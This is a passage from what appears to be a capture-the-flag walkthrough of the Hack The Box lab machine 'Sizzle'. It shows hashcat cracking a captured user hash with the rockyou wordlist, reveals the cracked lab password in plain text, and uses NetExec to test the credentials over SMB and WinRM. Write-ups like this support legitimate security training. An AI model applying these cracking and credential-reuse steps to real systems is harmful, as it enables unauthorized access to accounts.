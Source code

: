 <figure><img src="../../.gitbook/assets/sizzle_amanda_hash.png" alt=""><figcaption><p>Figure 13: Amanda opens the file and we get her hash back!</p></figcaption></figure>

We can now copy the hash to a file and use `hashcat` to crack it :unlock: (Figure 14).

```bash
# cracking the hash
hashcat amanda_hash /usr/share/wordlists/rockyou.txt
# showing the result
hashcat amanda_hash --show
```

<figure><img src="../../.gitbook/assets/sizzle_hash_pass.png" alt=""><figcaption><p>Figure 14: Cracking the hash with Hashcat.</p></figcaption></figure>

Let's validate Amanda's credentials and check if she has WinRM access (Figure 15).

```bash
# writing the password to a file
echo "Ashare1972" > amanda_pass
# validating credentials
nxc smb 10.10.10.103 -u amanda -p amanda_pass
# checking for WinRM access
nxc winrm 10.10.10.103 -u amanda -p amanda_pass
```
